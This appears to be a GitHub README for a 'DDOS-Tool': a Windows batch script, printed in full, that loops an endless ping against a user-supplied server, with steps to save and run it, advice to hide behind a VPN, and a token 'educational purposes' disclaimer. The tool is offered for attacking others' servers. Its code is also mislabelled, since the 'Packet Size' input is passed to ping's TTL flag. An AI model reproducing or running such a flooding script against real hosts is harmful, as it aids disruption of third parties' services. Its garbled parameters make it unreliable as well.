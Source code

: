 # DDOS-Tool
Anonymous DDOS-Tool





# About
  
 A script to Attack http(s) servers                                                
 
make sure u have a vpn installed                

how to install a vpn here:https://youtu.be/te8KE71ndso



# Screenshot
![Unbenannt](https://user-images.githubusercontent.com/97392345/153496914-2f9daae4-6c52-42c6-83b3-5df5f23ee946.PNG)


# Install
 1) Copy the folllowing code to youre Notepad:
 
@echo off
mode 67,16
title DDOS Attack by MR Jack
color 0a
cls
echo.
echo ÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄ
echo DDOS With Batchfile
echo ÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄ
echo.
set /p x=Server-Target:
echo.
echo ÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄ
ping %x%
echo ÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄ
@ping.exe 127.0.0.1 -n 5 -w 1000 > nul
goto Next
:Next
echo.
echo.
echo.
set /p m=ip Host:
echo.
set /p n=Packet Size:
echo.
:DDOS
color 0c
echo Attacking Server %m%
ping %m% -i %n% -t >nul
goto DDOS

2) its a batch file so save it as whateveruwant.bat
3) enter the target server, the ip and how many packets u want to send to the Server
Enjoy


# Disclaimer  
im not responsible for any Damage caused with this Tool. use it only for educational purposes only.  
